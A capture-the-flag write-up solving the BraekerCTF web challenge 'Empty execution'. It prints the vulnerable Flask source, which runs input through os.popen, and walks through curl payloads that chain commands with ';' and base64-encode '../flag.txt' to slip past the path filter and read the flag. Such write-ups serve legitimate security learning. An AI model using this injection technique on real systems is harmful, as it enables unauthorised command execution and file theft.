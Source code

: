 
### CTF: BRAEKERCTF


### Challenge:

- Empty execution [web]


### Challenge 1: Empty execution

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd88f21-d29a-4ada-a85a-36e21201fa20)

### Source Code:

```
from flask import Flask, jsonify, request
import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':   
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')
    # Run server
    app.run(host='0.0.0.0', port=80)
```

- The goal of this challenge is to read flag.txt.After reading the source code,I noticed that the webpage is vulnerable to command injection because the os method `popen` executes shell commands on the server.

  
            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

- This code changes directory to a directory named executables

       # Make sure we can only execute binaries in the executables directory
         os.chdir('./executables/')
  
### Security checks
- But the code filters some characters from the user input e.git raises an alert `Hacking attempt detected` if the user input contains '..' or '/'.It also raises a `command too short` error if the user input is lesser than 5 .

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

- Lastly, it uses the split() method to cut characters before `[space]`, tag it as the variable executable_to_run and use os.access() to check if the binary or executable can be executed.If it cannot be executed,it raises an error message `Not implemented`.
    
       # Check if we can execute the binary
            if os.access(executable_to_run, os.X_OK):
    
                # Execute binary if it exists and is executable
                out = os.popen(command).read()
                return jsonify({'message': 'Command output: ' + str(out)}), 200
    
        return jsonify({'message': 'Not implemented'}), 501

### Crafting a Payload

- The first step is to bypass the os.access() filter by ensuring that it returns True,I bypassed it with '. ' because the characters '.' and '..' are present in a linux directory.'.' is a link to your current directory and '..' is a link to the parent directory.I added space after '.' to allow the code split '.' and a couple of gibberish text to bypass the length check.
   
      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". zzzzz"}' -H 'Content-Type: application/json'                                                    
      {"message":"Command output: "}

- Now we can execute commands,but I placed ";" after the space to execute close the first statement and execute nother statement.The next step was to find binaries to read the flag.I was able to use `which` to locate binaries and it worked.The `which` binary is used to find binaries path.Using which to find base64 and echo binaries' path confirmed the existence of the binaries on the server.

      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;which base64;which echo"}' -H 'Content-Type: application/json'
      {"message":"Command output: /bin/base64\n/bin/echo\n"}

- Now we can craft a payload with base64 and echo,I was able to craft this payload `base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)`.I encoded '../flag.txt' with base64 since flag.txt is not present in the current directory, we will need to move up one directory and .. and / are both filtered by the code.Echo pipes it to base64 which decodes it and the process is executed with $().Base64 can read files passed to it and return it in base64 encoded text.After that, the result will be transferred to `base64 -d` via a pipe to decode the base64 encoded flag.

       curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;echo $(base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)) | base64 -d"}' -H 'Content-Type: application/json'
       {"message":"Command output: brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}"}

